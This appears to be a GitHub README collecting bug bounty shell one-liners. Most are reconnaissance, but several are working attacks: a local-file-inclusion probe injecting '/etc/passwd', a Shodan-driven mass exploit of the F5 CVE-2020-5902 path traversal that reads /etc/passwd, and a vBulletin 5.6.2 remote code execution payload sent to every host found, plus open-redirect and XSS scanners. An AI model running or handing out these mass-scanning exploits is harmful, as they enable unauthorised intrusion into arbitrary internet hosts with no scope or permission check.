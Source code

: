 # Awesome One-liner Bug Bounty [![Awesome](https://awesome.re/badge-flat2.svg)](https://awesome.re)
> A collection of awesome one-liner scripts especially for bug bounty.

This repository stores and houses various one-liner for bug bounty tips provided by me as well as contributed by the community. Your contributions and suggestions are heartily♥ welcome.

---

### Local File Inclusion
> @dwisiswant0

```bash
gau $1 | gf lfi | qsreplace "/etc/passwd" | xargs -I % -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

### Open-redirect
> @dwisiswant0

```bash
export LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

### XSS
> @cihanmehmet

```bash
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o result.txt
```

### CVE-2020-5902
> @Madrobot_

```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```

### vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' Remote Code Execution
> @Madrobot_

```bash
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```

### Find JS Files
> @D0cK3rG33k

```bash
assetfinder site.com | gau|egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)'|while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" |sed -e 's, 'var','"$url"?',g' -e 's/ //g'|grep -v '.js'|sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars";done
```

### Extract Endpoints from JS File
> @renniepak

```bash
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```

### Get CIDR & Orgz from Target Lists
> @steve_mcilwain

```bash
for DOMAIN in $(cat domains.txt);do echo $(for ip in $(dig a $DOMAIN +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; d
one | uniq); done
```

### Get Subdomains from RapidDNS.io
> @andirrahmani1

```bash
curl -s "https://rapiddns.io/subdomain/$1?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | grep http | cut -d '/' -f3 | sed 's/#results//g' | sort -u
```

### Get Subdomains from BufferOver.run
> @_ayoubfathi_

```bash
curl -s https://dns.bufferover.run/dns?q=.DOMAIN.com |jq -r .FDNS_A[]|cut -d',' -f2|sort -u
```

### Find All Allocated IP ranges for ASN given an IP address
> wains.be

```bash
whois -h whois.radb.net -i origin -T route $(whois -h whois.radb.net $1 | grep origin: | awk '{print $NF}' | head -1) | grep -w "route:" | awk '{print $NF}' | sort -n
```
### When taking out parameters from a waybackurls list, one can try this:
> @shail_official
```bash
cat waybackurls.txt | grep"[=?]" > wayback_params.txt
```
